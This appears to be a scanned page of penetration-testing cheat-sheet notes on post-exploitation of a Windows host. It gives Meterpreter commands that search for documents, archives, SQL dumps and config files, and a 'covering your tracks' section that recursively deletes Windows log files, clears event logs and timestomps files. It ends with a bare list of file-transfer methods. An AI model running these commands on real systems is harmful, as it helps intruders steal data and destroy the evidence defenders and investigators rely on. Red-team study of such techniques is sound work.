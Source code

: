 ### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```

### Covering your tracks

Windows

C:\del %WINDIR%\*.log /a/s/q/f

MSF>clearev

MSF>timestompc:\\ -r



### Upload /Download file - Transfer Tricks and reminders


Reminder to check out the red team field manual tips and tricks  “File Transfer”

#### Transferring methods and tools

debug.exe to transfer files

Upload files using scripting languages

o	USE VBScript

o	USE POWERSHELL

o	USE PYTHON

o	Use POWERSHELL

Using other programs to transfer files

o	USE WGET

o	USE FETCH

o	Using TFTP
